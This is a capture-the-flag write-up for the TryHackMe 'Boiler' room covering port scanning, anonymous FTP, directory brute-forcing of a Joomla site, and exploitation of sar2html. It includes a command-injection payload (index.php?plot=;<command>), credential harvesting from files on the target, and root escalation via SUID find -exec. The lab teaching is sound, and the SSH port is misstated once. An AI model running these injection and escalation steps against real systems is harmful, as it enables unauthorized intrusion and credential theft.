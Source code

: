 # recon.
Like always, start with nmap. I use my own tool to automate nmap scan, check it out [pymap](https://github.com/gu2rks/pymap)
```console
$ python3 pymap.py -t $IP --all
```
there are 4 open port:
- 21/tcp    open  ftp
- 80/tcp    open  http
- 10000/tcp open  snet-sensor-mgmt
- 55007/tcp open  ssh


## port 21
from nmap scan you should note that FTP is open for Anonymous log in. (`ftp-anon: Anonymous FTP login allowed (FTP code 230)`) so let check it out:
```console
kali@kali:~/THM/boiler$ ftp $IP 
Connected to 10.10.108.17.
220 (vsFTPd 3.0.3)
Name (10.10.108.17:kali): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt
local: .info.txt remote: .info.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .info.txt (74 bytes).
226 Transfer complete.
74 bytes received in 0.00 secs (29.5565 kB/s)
```
now back to kali:
```
kali@kali:~/THM/boiler$ cat .info.txt 
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```
from the looks of the cipher, you can already tell that it is a substitution cipher. substitution cipher works in a way that it "rotate" each character. 

Any how the message was
```
Just wanted to see if you find it. Lol. Remember: Enumeration is the key!
```
seem like we got trolled by the room creater... so let move on to the next port.

## Port 80
Like always start fire up ur gobuster or ur favorite web directory brute forcing tool
```console
$ gobuster dir -u http://$IP/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .php,.txt,.html -t 54
```
While you are waiting for the result, go explore the web (happy path). I found something in  `robots.txt`
```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```
you can try to decryp the cipher if you want to but I can sell you direcly that you will not get anything out of it. Seem like the `MrSeth6797` (room creator) love to troll us.


anyhow I found out that the web is hosting `/joomla` There is nothing much on the blog. only one post. so let dig more by running gobuster at `/joomla`
```console
$ gobuster dir -u http://$IP/joomla -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .php,.txt,.html -t 54
```
here is what I found
```
/LICENSE.txt (Status: 200)
/README.txt (Status: 200)
/_a______ (Status: 301)
/_d_____ (Status: 301)
/_f___ (Status: 301)
/_t___ (Status: 301)
/administrator (Status: 301)
/bin (Status: 301)
/build (Status: 301)
/cache (Status: 301)
/cli (Status: 301)
/components (Status: 301)
/configuration.php (Status: 200)
/htaccess.txt (Status: 200)
/images (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/installation (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/templates (Status: 301)
/tests (Status: 301)
/tmp (Status: 301)
/~ww__ (Status: 301)
```
This is my 3rd time working with Joomla. By looking at the results, There is some dikectory that is looks juicy.
1. /administrator: admin login page
2. /_a______ (Status: 301)
3. /_da____ (Status: 301)
4. /_f___ (Status: 301)
5. /_t__ (Status: 301)
6. /~ww__ (Status: 301)


number 2-6 are directories that not included in joomla by defualt which is worth checking.

Since im already done with this room, I can tell you direcly that some of them are just a rabbit hole, `MrSeth6797` just messing with us.

anyhow you will find the "rigth" one on the list above? how do I know that?
1. There is something that it is not there by defualt
2. I found an exploit after I google about it


So the site run `sar2html`. In short, Sar2html is web based frontend for performance monitoring. It converts sar binary data to graphical format and keep historical data in it's library. if you search 

if you search for `sar2html exploit` you will find a RCE exploit which we can use to for farther attack. you can find the exploit [here](https://www.exploit-db.com/exploits/47204)

```
In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```
so the plan is us this to enumerate the server and hope that we might find some juicy info such as, usernames/password.

so I started with checking for users by checking if it work by execute `whoami`. **BOOM** ! it works !! then I execute `/index.php?plot=;ls ../../../../../home/` the figure below show the result.

![whoami](../pic/Screenshot%202020-08-07%20at%2019.42.36.png)


![users](../pic/Screenshot%202020-08-07%20at%2019.43.14.png)

I found a juicy at `www-data` home directory which contain **Basterd's password**. **Hint**:
<details>log.txt</details>

## foot hold
now ssh to the victim server using Basterd credential. dont forget that ssh is on port 5507. here is what you will find on Basterd home directory
```
$ ls -la
total 16
drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 .
drwxr-xr-x 4 root    root    4096 Aug 22  2019 ..
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
-rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
drwx------ 2 basterd basterd 4096 Aug 22  2019 .cache
```
You should already tell that `backup.sh` is juicy!!
1. stoner is the owner of the files.
2. the name of the file
3. it is a shell/bash script

Examine `backup.sh`, You will find Stoner's password. Back to kali, ssh to the victim server again but using Stoner's credential this time.
```console
stoner@Vulnerable:~$ ls -la
total 20
drwxr-x--- 4 stoner stoner 4096 Aug  7 21:12 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwx------ 2 stoner stoner 4096 Aug  7 21:12 .cache
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
```
now grep the user flag (.secret)

# root
You can start with `sudo -l` if you wanna but I can tell you direcly it is just another rabbit whole. `MrSeth6797` he did it again...

The next step is looking for `SUID`, if you dont know what `SUID` is, pls do some research by youself. Anyway, I use suid3num.py to enumerate `SUID`. You can find the tool on github [link](https://github.com/Anon-Exploiter/SUID3NUM). Tranfer the script to victim server and run it
```
[#] SUID Binaries in GTFO bins list (Hell Yeah!)
------------------------------
/usr/bin/find -~> https://gtfobins.github.io/gtfobins/find
------------------------------
```
**MashaAllah**, let use it to get root flag!!
```console
stoner@Vulnerable:~$ find *.py -exec whoami \;
root
stoner@Vulnerable:~$ find *.py -exec ls /root/ \;
root.txt
```
